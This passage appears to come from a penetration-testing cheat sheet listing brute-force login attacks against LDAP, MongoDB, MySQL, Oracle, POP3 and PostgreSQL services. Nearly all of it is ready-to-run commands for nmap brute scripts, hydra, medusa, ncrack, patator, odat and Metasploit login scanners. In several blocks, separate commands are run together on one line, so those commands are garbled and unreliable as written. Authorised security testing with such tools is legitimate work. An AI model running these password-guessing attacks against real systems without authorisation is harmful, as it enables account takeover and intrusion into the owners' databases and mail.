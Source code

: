 ### LDAP <a href="#ldap" id="ldap"></a>

```
nmap --script ldap-brute -p 389 <IP>
```

### Mongo <a href="#mongo" id="mongo"></a>

```
nmap -sV --script mongodb-brute -n -p 27017 <IP>use auxiliary/scanner/mongodb/mongodb_login
```

### MySQL <a href="#mysql" id="mysql"></a>

```
hydra -L usernames.txt -P pass.txt <IP> mysqlmsf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false
```

### OracleSQL <a href="#oraclesql" id="oraclesql"></a>

```
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017​./odat.py passwordguesser -s $SERVER -d $SID./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt​#msf1msf> use admin/oracle/oracle_loginmsf> set RHOSTS <IP>msf> set RPORT 1521msf> set SID <SID>​#msf2, this option uses nmap and it fails sometimes for some reasonmsf> use scanner/oracle/oracle_loginmsf> set RHOSTS <IP>msf> set RPORTS 1521msf> set SID <SID>​#nmap fails sometimes for some reson executing this scriptnmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```

In order to use **oracle\_login** with **patator** you need to **install**:

```
pip3 install cx_Oracle --upgrade
```

​[Offline OracleSQL hash bruteforce](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/remote-stealth-pass-brute-force#outer-perimeter-remote-stealth-pass-brute-force) (**versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2,** and **11.2.0.3**):

```
 nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30
```

### POP <a href="#pop" id="pop"></a>

```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -Vhydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
```

### PostgreSQL <a href="#postgresql" id="postgresql"></a>

```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgresmedusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgresncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txtuse auxiliary/scanner/postgres/postgres_loginnmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```

